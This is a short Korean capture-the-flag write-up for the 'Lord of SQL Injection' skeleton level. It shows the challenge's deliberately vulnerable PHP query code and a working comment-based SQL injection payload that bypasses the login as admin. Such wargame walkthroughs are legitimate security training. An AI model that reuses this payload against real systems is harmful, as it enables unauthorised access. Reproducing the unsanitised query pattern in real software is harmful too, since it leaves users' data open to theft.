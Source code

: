 Lord of SQL Injection No.10 - skereton
=============
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("skeleton");
  highlight_file(__FILE__);
?>
```
위 문제에서 알 수 있는 것
-------------
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
DB에 전달된 id가 admin이면 문제가 풀리게 된다.

문제 풀이 법
-------------
5번째 줄에서 pw='{$_GET[pw]}' and 1=0"가 있는데 이 부분에서 pw에 어떤 값 pw='or 1=1을 입력하면 뒤에 and1=0이 실행되어서
실행 되지 않는다.
1. 주석처리
뒤에 and 1=0이 실행되지 않도록 주석처리를 해준다.
pw=' or id='admin'-- -
